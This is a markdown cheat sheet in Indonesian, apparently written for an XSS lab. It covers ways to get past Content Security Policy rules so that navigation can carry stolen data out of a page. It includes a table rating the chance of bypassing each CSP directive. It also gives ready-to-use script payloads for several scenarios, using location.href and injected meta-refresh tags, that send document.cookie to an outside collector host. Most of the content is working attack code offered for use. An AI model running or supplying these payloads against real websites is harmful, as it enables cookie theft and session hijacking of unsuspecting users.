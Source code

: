 
---

### 2️⃣ Analisis CSP Directive yang Memblokir

| Teknik Navigation | CSP Directive yang Memblokir | Bypass Possibility |
|-------------------|------------------------------|-------------------|
| **Meta Refresh** | `navigate-to 'self'` (experimental) | ⚠️ High (directive jarang digunakan) |
| **location.href** | `navigate-to 'self'` (experimental) | ⚠️ High (directive jarang digunakan) |
| **Form GET** | `form-action 'self'` atau `'none'` | ⚠️ Medium (directive sering ada) |
| **Anchor Click** | `navigate-to 'self'` (experimental) | ⚠️ High (directive jarang digunakan) |
| **iframe src** | `frame-src 'none'`, `child-src 'none'`, `default-src 'none'` | ❌ Low (directive umum) |
| **window.open** | `navigate-to 'self'`, popup blockers | ❌ Very Low (banyak defense) |

---

### 3️⃣ Cheat Sheet: Kapan Menggunakan Teknik Apa

#### Scenario A: CSP Minimal (No navigate-to, no form-action)
```
CSP: default-src 'none'; script-src 'unsafe-inline'
```
**Best Choice**: Meta Refresh atau location.href
```javascript
<script>location='https://eqh42jmm.xssy.uk/?c='+document.cookie;</script>
```

#### Scenario B: CSP dengan form-action
```
CSP: default-src 'self'; script-src 'unsafe-inline'; form-action 'self'
```
**Best Choice**: Meta Refresh (bypass form-action)
```javascript
<script>
var meta=document.createElement('meta');
meta.httpEquiv='refresh';
meta.content='0;url=https://eqh42jmm.xssy.uk/?c='+document.cookie;
document.head.appendChild(meta);
</script>
```

#### Scenario C: CSP dengan navigate-to (rare)
```
CSP: default-src 'none'; script-src 'unsafe-inline'; navigate-to 'self'
```
**Best Choice**: Coba teknik lain (image, fetch) atau cari vulnerability lain
**Note**: `navigate-to` masih experimental, test dulu mungkin masih bypass

#### Scenario D: Lab dengan Popup Blocker
```
Lab: "headless browser has a popup blocker"
```
**Avoid**: window.open()
**Use**: Meta refresh, location.href, form submission

---